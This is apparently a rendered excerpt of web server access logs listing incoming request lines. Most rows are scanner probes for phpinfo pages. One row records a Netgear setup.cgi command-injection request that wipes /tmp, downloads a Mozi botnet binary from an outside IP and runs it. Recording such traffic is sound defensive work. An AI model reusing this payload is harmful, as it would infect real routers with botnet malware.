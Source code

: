|  76 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xA4F\x91\xBF\xF8Tn\xF9@7\xFE\xA2S(p\xBC2\xB1iF\xB9u`\x82<c&\xF1;9>7\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                         |
|  77 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.184.247.7:34730/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                          |
|  78 |                     1 | GET /asdf.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                               |
|  79 |                     1 | GET /pinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |
|  80 |                     1 | GET /phpversion.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                         |
|  81 |                     1 | GET /old_phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                        |
|  82 |                     1 | GET /infos.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |
|  83 |                     1 | GET /php-info.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  84 |                     1 | GET /dashboard/phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                  |
|  85 |                     1 | GET /phpinfo.php3 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  86 |                     1 | GET /phpinfo.php4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  87 |                     1 | GET /phpinfo.php5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  88 |                     1 | GET /_profiler/phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                  |